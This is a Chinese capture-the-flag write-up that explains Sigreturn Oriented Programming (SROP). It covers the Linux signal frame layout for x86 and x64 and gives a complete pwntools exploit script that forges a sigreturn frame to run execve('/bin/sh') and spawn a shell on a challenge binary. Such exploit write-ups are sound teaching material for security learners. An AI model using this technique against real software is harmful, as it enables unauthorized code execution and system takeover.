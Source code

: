 SQCTF的 当时只道是寻常 [SQCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/NNWUdbFanoUB0wxUSK9cZHJinIb#share-S57gd77RFox1sAxsDmxcjhzon4g)

TGCTF 的 norop [TGCTF-PWN-CrazyCat](https://hnusec-team.feishu.cn/docx/JsIsd70Dmo0z4BxIalkcE95anCh#share-Pll1dM7sNoOcncxZxsLc7KMxnhb)

之前就听队里师傅问我SROP学了没，这次刚好有个契机就学了

SROP(Sigreturn Oriented Programming)，简单来说就是通过系统调用号为0xf(sigreturn)的系统调用执行一个可以将所有寄存器赋值的函数来实现对所有寄存器的控制，从而直接执行某个函数的操作。

# Signal 机制

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=ODk0MjFiMmRjNzE3ZTQzNzIwYWMwNGFiNGU3NzliOWFfT0I4aUNqa1BMRUJkbHV3d21yeVVxUUxRektVOTNZTjFfVG9rZW46RkNDU2JkclAxbzFVeVd4bVdYa2M4cUhBbmpmXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

1. 内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
    
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压****入栈****中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的****地址空间****的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
    

对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext

- x86
    

```Plain
struct sigcontext{  
    unsigned short gs, __gsh;  
    unsigned short fs, __fsh;  
    unsigned short es, __esh;  
    unsigned short ds, __dsh;  
    unsigned long edi;  
    unsigned long esi;  
    unsigned long ebp;  
    unsigned long esp;  
    unsigned long ebx;  
    unsigned long edx;  
    unsigned long ecx;  
    unsigned long eax;  
    unsigned long trapno;  
    unsigned long err;  
    unsigned long eip;  
    unsigned short cs, __csh;  
    unsigned long eflags;  
    unsigned long esp_at_signal;  
    unsigned short ss, __ssh;  
    struct _fpstate * fpstate;  
    unsigned long oldmask;  
    unsigned long cr2;
};
```

- x64
    

```Plain
struct _fpstate{  
    /* FPU environment matching the 64-bit FXSAVE layout.  */  
    __uint16_t        cwd;  
    __uint16_t        swd;  
    __uint16_t        ftw;  
    __uint16_t        fop;  
    __uint64_t        rip;  
    __uint64_t        rdp;  
    __uint32_t        mxcsr;  
    __uint32_t        mxcr_mask;  
    struct _fpxreg    _st[8];  
    struct _xmmreg    _xmm[16];  
    __uint32_t        padding[24];
};
struct sigcontext{  
    __uint64_t r8;  
    __uint64_t r9;  
    __uint64_t r10;  
    __uint64_t r11;  
    __uint64_t r12;  
    __uint64_t r13;  
    __uint64_t r14;  
    __uint64_t r15;  
    __uint64_t rdi;  
    __uint64_t rsi;  
    __uint64_t rbp;  
    __uint64_t rbx;  
    __uint64_t rdx;  
    __uint64_t rax;  
    __uint64_t rcx;  
    __uint64_t rsp;  
    __uint64_t rip;  
    __uint64_t eflags;  
    unsigned short cs;  
    unsigned short gs;  
    unsigned short fs;  
    unsigned short __pad0;  
    __uint64_t err;  
    __uint64_t trapno;  
    __uint64_t oldmask;  
    __uint64_t cr2;  
    extension union    {      
        struct _fpstate * fpstate;      
        __uint64_t __fpstate_word;    
        };  
    __uint64_t __reserved1 [8];
};
```

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=ZTE4OTQ2MmM4ZTc1MDU0MzhmZTY2NWIxNTE3ZGY5MWVfbEpsTzlMRFlHOTJyVjJNaTlxVVluVkJYQUtpYjZTTWlfVG9rZW46U2ZiOGJEZGw1bzFaZW94bWJFb2NlYWxZbmtlXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

3. signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。
    

# 利用

`SROP`的利用很简单，只需要攻击者可以控制栈空间，即可以向栈空间写入大量（长度至少包含构造的`fake frame`)数据，**然后控制****`rsp`****指向存有我们构造的****`fake frame`****，并控制****`rax`****为****`0xf`****，然后执行****`syscall`****就可以实现****`srop`****的攻击。**

注意是控制`rsp`指向`fake frame`的头部，其他指针除了`rax`外应该都无所谓。

实际构造时发现可能有些非寄存器的位置非零也不影响最后的执行，具体哪些还没细探究过，目前只知道最后两个位置应该不影响

`Fake frame`的构造`pwntools`库有现现成的，可以直接构造

```Python
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045
```

这边用一题来举例

暂时无法在飞书文档外展示此内容

程序很简单

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=OTNmYzkzNDM1NWMxZmQ4MGViODQ3NTkxOWQ5ZjZkNjdfMncxdXR3UHVjREl4M0VIcWMzdEFhNFFpU1l3UndFZjVfVG9rZW46RGcwRmJlYm5KbzNTZFh4SmpsbmMzN2ZRblRkXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

可以看到用`syscall`构造了三个函数，中间`read`，前后`write`，可以控制`rsi`，但无法控制`rdi`，有`0x400`的`read`，足够构造`SROP`链。

```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
local = True
debug = True
if local:
    p = process('./pwn01')
    if debug:
        gdb.attach(p, gdbscript='b main')
else:
    ip ,port = "challenge.qsnctf.com:32442".split(":")
    p = remote(ip, port)

pop_rax = 0x40104a
binsh = 0x40203a
syscall = 0x40101d

frame1 = SigreturnFrame()
frame1.rax = constants.SYS_execve
frame1.rdi = binsh
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = 0x401045

payload = p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(0x401042)
payload += bytes(frame1)
p.send(payload)

p.interactive()
```

这里我们直接贴 exp，结合 exp 讲

程序是直接有`binsh`的地址的，那么我们只需要构造 SROP，把他读入到栈上然后`syscall`就可以，那么要考虑的就是控制`rsi`的值，控制`rsi`的值就要用到最后一个`syscall`前面的`mov rsi, rsp;` rsp 始终是指向栈上的，那么我们只需要控制执行`syscall`的时候`rsp`刚好是我们构造的`fake frame`前面即可，这是很好做到的。

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=Njk0MWZmYmE4MmM2ZjFmYWE4MTc1M2EzM2YyZjNmNmZfbVY4NFJsT2xaNnRSbTlMdldiSXdUMmVSNkNFcmtRZkJfVG9rZW46Wk5memJEODhGb3BmODV4TktKRmN0RGtublllXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

可以看到根据我们的 exp，`0x7ffd226a2338`处开始就是我们的`fake frame`，

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=MGI0ZWE5ZGJjZjJiZjg2YjEzOGM0ZjZmNmU4ZWNkYWNfV3dUMTN0V245R1V3NVl1U0lCVTBUZ3lMa1dBeDJGanBfVG9rZW46VDV2eGIzWjlWb3RUalB4SXhZYmM5RDdpbmhlXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

执行到`syscall`的时`rsi`已经指向了`fake frame`的顶部，可以开始SROP

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=ZGM4NTQ3MmFlNDFkNGMwZTc1NTJkZTlkMjU2OGQwYmZfUGpBSzhFUldFYnJndWFzRFROeXJ3U2p1andXaUg2eXBfVG9rZW46RUMzZmJra3ZFb0RpakN4OERXN2NCMlhIblhjXzE3NDUxMzc2NTI6MTc0NTE0MTI1Ml9WNA)

实际就可以根据我们构造的寄存器来执行`system("/bin/sh")`。